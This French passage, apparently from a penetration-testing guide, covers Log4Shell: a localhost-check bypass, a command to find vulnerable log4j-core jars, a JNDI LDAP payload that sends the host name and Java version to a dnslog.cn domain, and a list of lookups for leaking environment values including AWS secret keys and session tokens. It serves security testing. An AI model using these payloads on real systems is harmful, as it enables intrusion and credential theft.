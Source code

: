 Notez que **même si une demande DNS est reçue, cela ne signifie pas que l'application est exploitable** (ou même vulnérable), vous devrez essayer de l'exploiter.

> [!NOTE]
> N'oubliez pas que pour **exploiter la version 2.15**, vous devez ajouter le **contournement de vérification localhost** : ${jndi:ldap://**127.0.0.1#**...}

#### **Découverte locale**

Recherchez des **versions vulnérables locales** de la bibliothèque avec :
```bash
find / -name "log4j-core*.jar" 2>/dev/null | grep -E "log4j\-core\-(1\.[^0]|2\.[0-9][^0-9]|2\.1[0-6])"
```
### **Vérification**

Certaines des plateformes mentionnées précédemment vous permettront d'insérer des données variables qui seront enregistrées lorsqu'elles seront demandées.\
Cela peut être très utile pour 2 choses :

- Pour **vérifier** la vulnérabilité
- Pour **exfiltrer des informations** en abusant de la vulnérabilité

Par exemple, vous pourriez demander quelque chose comme :\
ou comme `${`**`jndi:ldap://jv-${sys:java.version}-hn-${hostName}.ei4frk.dnslog.cn/a}`** et si une **demande DNS est reçue avec la valeur de la variable d'environnement**, vous savez que l'application est vulnérable.

Autres informations que vous pourriez essayer de **leaker** :
```
${env:AWS_ACCESS_KEY_ID}
${env:AWS_CONFIG_FILE}
${env:AWS_PROFILE}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:HOSTNAME}
${env:JAVA_VERSION}
${env:PATH}
${env:USER}
${hostName}
${java.vendor}
${java:os}
${java:version}
${log4j:configParentLocation}
${sys:PROJECT_HOME}
${sys:file.separator}
${sys:java.class.path}
${sys:java.class.path}
${sys:java.class.version}
${sys:java.compiler}
${sys:java.ext.dirs}
${sys:java.home}
${sys:java.io.tmpdir}
${sys:java.library.path}
${sys:java.specification.name}
${sys:java.specification.vendor}
${sys:java.specification.version}
${sys:java.vendor.url}
${sys:java.vendor}
${sys:java.version}
${sys:java.vm.name}
${sys:java.vm.specification.name}
${sys:java.vm.specification.vendor}
${sys:java.vm.specification.version}
```